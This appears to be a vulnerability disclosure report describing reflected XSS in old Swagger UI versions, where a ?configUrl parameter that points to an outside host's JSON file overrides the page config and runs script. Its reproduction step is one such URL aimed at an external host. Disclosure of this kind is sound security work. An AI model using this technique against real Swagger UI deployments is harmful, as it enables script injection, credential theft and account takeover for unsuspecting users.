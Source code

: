#### Description
Swagger UI is a web interface for interacting with a web API defined using the OpenAPI (formerly known as Swagger) specification. It allows you to visualize and interact with the API's resources without having to write any code.

Some old Swagger UI versions are vulnerable to XSS by overwriting their configuration with the `?configUrl` or `?url` parameter. By doing so, you can override the page to do a malicious act, while it still has a trustworthy URL. And no authentication is needed to exploit this vulnerability

#### Steps to reproduce (with ?configUrl=):
1. Go to: {{endpoint}}?configUrl=https://jumpy-floor.surge.sh/test.json
2. You should see an alert box (screenshot attached)

#### Impact:
This vulnerability allows an attacker to inject and execute arbitrary script code within the context of a user's web browser. This malicious script code can be used to steal sensitive user information, perform phishing attacks, or even gain unauthorised access to the user's account.

#### Resources / Supporting Material:
- https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
